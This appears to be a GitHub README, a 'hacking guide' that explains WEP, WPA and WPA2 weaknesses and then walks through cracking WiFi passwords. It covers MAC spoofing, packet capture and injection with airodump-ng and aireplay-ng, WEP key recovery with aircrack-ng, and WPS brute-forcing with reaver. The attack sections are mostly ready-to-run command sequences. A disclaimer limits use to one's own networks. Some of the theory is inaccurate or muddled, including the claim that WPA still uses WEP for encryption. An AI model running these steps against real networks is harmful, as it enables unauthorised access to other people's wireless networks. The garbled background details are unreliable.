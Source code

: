 # BT3GL's Hacking Guide

Disclaimer: I do not support or endorse any illegal activities! Only test these techniques in your OWN machines and networks.


## THEORY

### WEP

WEP, or wired equivalent privacy, was the first wireless security scheme employed. As it name implies, it was designed to provide security to the end-user that was essentially equivalent to the privacy that was enjoyed in a wired environment. Unfortunately, it failed miserably.

For a number of reasons, WEP is extraordinarily easy to crack because of a flawed implementation of the RC4 encryption algorithm. It's not unusual to be able to crack WEP in less than 5 minutes. This is because WEP used a very small (24-bit) initialization vector (IV) that could be captured in the datastream, and this IV could then be used to discover the password using statistical techniques.


### WPA

WPA was the response by the industry to the revealed weaknesses of WEP. It's often referred to as WPA1 to distinguish it from WPA2.

WPA used Temporal Key Integrity Protocol (TKIP) to improve the security of WEP without requiring new hardware. It still uses WEP for encryption, but it makes the statistical attacks used to crack WEP much more difficult and time-consuming.


### WPA2-PSK

WPA2-PSK is the implementation of WPA2 for the home or small business user. As the name implies, it's the WPA2 implementation that uses a pre-shared key (PSK). It's this security standard that is used by most households today, and although it's far more secure, it's still vulnerable to various attacks.

A feature that was added in 2007 called Wi-Fi Protected Setup, or WPS, allows us to bypass the security in WP2-PSK .

### WPA2-AES
WPA2-AES is the enterprise implementation of WPA2. It uses the Advanced Encryption Standard or AES to encrypt data and is the most secure. It's often coupled with a RADIUS server that is dedicated for authentication.




## CRACKING WIFI PASSWORDS:


### Cracking WEP

(Success depend on the proximity to the AP point)

1) Change your MAC address:

```
$ airmon-ng ---> take note of the name of your network interfaces (example wlan0)
$ airmon-ng stop INTERFACENAME
$ ifconfig INTERFACENMAE down
$ macchanger --mac 00:11:22:33:44:55
```

2) Pick your network (BSSID):

```
$ airodump-ng INTERFACENAME
```

3) See what's happening on that network and capture information to a file:

```
$ airodump-ng -c CHANNEL -W FILENAME --bssid BSSID INTERFACENAME
```

4) Open a new console and type (where the ESSID is the access point's SSID name):

```
$ aireplay-ng -1 0 -a BSSID -h 00:11:22:33:44:55 -e ESSID INTERFACE
$ aireplay-ng -3 -b BSSID -h 00:11:22:33:44:55 INTERFACE
```

5) Once you have collected enough data, launch a third console to crack the data:

```
$ aircrack-ng -b BSSID FILENAME-01.cap
```


### Cracking WPA

* It can take up to 2-6 hours.
* It can cause DoS attack.
* If the router has MAC filtering, use a network monitoring tool to find a MAC address of a system that has a connection to the router, and then set that to the address of the attack platform.

1) Find your wireless card:

```
$ iwconfig
```

2) Put your wireless card into monitor mode:

```
$ airmon-ng start wlan0
```

or

```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
```

3) Find the BSSID of the router to crack:

```
$ airodump-ng wlan0 --> mon0 if this does not work
```

4) Crack a Network's WPA password with Reaver:

```
$ reaver -i mon0 -b BSSID -vv
```

